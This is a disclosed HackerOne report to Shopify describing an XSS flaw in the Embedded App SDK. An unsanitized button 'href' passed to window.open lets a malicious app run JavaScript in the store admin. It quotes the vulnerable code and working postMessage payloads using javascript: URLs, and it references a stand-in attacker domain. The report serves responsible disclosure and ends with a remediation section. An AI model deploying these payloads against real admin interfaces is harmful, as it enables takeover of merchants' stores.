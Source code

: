 # XSS in $shop$.myshopify.com/admin/ via "Button Objects" in malicious app

## Report Details
- **Report ID**: 217745
- **URL**: https://hackerone.com/reports/217745
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-04-02T01:07:12.877Z
- **Disclosed**: 2017-05-22T20:27:48.405Z

## Reporter
- **Username**: bored-engineer
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
This report is similar in impact, exploitability and root-cause as report #205701 requiring an additional step of user-interaction. 

#Description
The Shopify [Embedded App SDK](https://help.shopify.com/api/sdks/merchant-apps/embedded-app-sdk) is used to facilitate limited interactions with parent page (`/admin/apps/$id`) from an embedded app within the shop admin interface. The SDK has multiple methods which accept a `buttons` parameter which is defined under the [button objects](https://help.shopify.com/api/sdks/shopify-apps/embedded-app-sdk/methods#button-objects) section of the SDK documentation. Buttons can define a `href` parameter which will open when the button is clicked. The `href` parameter is not properly sanitized allowing a malicious app to execute JavaScript in the context of the admin interface.

#Technical Details
When a button is clicked the `clickButton` method is called, the method is defined as follows:
```js
clickButton = function(_, data) {
  if ((data.loading || "undefined" == typeof data.loading && "app" === data.target) && Shopify.Loading.start(), href = data.href) {
    switch (data.target) {
      case "parent":
      case "shopify":
        Page.visit(href, {
          reload: true
        });
        break;
        case "app":
          break;
        default:
          Page.open(href)
    }
  }
}
```
If no `target` parameter is specified (and the application is already loaded) `Page.open` will be called. This method is defined like this:
```
Page.open = function() {
  return window.open.apply(window, arguments);
}
```
You would expect `window.open` is safe to call with untrusted URLs as it will open in a new window/tab however this is not the case. When `window.open` is called with a `javascript:` URL a new window/tab will be opened with the domainless `about:blank` location (or similar depending on the browser) however the `document.domain` property will be shared with the opener window. Because the documents share `document.domain` the new window will be able to access the opener window and trigger JavaScript execution. You can test this yourself like this:
```js
window.open("javascript:window.opener.alert('bored-engineer')")
```
In the context of Shopify this means an application can create a button that will trigger XSS on the admin interface when the button is clicked. The following script was used to demonstrate the issue:
```js
window.parent.postMessage(JSON.stringify({
  message: "Shopify.API.Bar.initialize",
  data: {
    buttons: {
      primary: {
        label: "Click here for XSS",
        href: "javascript:setTimeout('window.close()',1);window.opener.eval('alert(document.domain)');",
      }
    }
  }
}), "*");
```
I wanted to note that this needs to be fixed in the `Shopify.EmbeddedAppButtons` class since this issue affects all methods which render buttons. For example the following script will also trigger XSS using a different method:
```js
window.parent.postMessage(JSON.stringify({
  message: "Shopify.API.Modal.open",
  data: {
    src: "https://attackerdoma.in",
    buttons: {
      primary: {
        label: "Click here for XSS",
        href: "javascript:setTimeout('window.close()',1);window.opener.eval('alert(document.domain)');",
      }
    }
  }
}), "*");
```

#Exploitability
You need to convince an administrator to authorize your malicious application, however the exploit does not require any specific permissions to trigger so an admin may be more willing to authorize the application. Once the administrator has loaded the application it is likely they will click at least one of the multiple entry-points for buttons. 

#Proof of Concept
I've created an example malicious application associated with my partner account `shopify-whitehat-1@bored.engineer` to demonstrate the issue...
Open the following URL on on `$your-shop$.myshopify.com`:
```
/admin/oauth/authorize?client_id=18cc7056a1476994411e3d21971289a7&scope=read_products&redirect_uri=https://attackerdoma.in/1b61d988-374e-48c8-ae6a-6eb28a0f25de.html&state=nonce
```
After authorizing the application and click the "Click here for XSS" button in the upper-right corner. An alert should appear on the `/admin` window containing `document.domain`.

#Remediation
The application should sanitize the `href` parameter for all "button objects" either before creating the elements in the DOM, or in the `clickButton` method before calling `Page.open`. 


## Attachments
No attachments
